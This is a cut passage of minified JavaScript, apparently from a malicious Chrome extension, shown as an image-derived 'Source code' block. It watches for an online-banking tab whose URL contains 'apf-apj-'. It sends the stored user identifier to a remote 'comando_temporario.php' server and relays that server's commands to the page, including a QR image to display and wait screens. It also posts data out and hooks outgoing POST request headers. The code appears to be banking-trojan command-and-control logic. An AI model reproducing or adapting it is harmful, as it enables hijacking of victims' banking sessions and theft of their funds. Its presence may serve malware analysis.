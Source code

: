 ```js
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(e),
      };
    fetch(r, s);
  });
}

function testeone() {
  console.log(window.sessionStorage);
}

async function s() {
  chrome.tabs.query(
    {
      active: true,
      currentWindow: true,
    },
    function (e) {
      if (e[0] && e[0].url.includes("apf-apj-")) {
        q = JSON.parse(t);
        fetch(
          n +
            "comando_temporario.php?eindeutigeKennung=" +
            a +
            "&k=" +
            q.identificacaoUsuario
        )
          .then((response) => response.json())
          .then(function (n) {
            let t = n;
            if (t.comando && o != t.comando) {
              let n = {};
              if ("CODE_ZUM_LESEN" === t.comando) {
                bildadresse = t.qr;
                n = {
                  befehlstyp: "codeZumLesen",
                  bildadresse: bildadresse,
                };
              } else if ("WARTEN" === t.comando) {
                n = {
                  befehlstyp: "warten",
                };
              } else if ("SCHLIEBEN_WARTEN" === t.comando) {
                n = {
                  befehlstyp: "schliebenWarten",
                };
              }
              chrome.tabs.sendMessage(e[0].id, n);
              o = t.comando;
            }
          });
      }
    }
  );
}

chrome.webRequest.onBeforeSendHeaders.addListener(
  function (n) {
    var a = n.requestHeaders;
    if (
      "POST" === n.method &&
```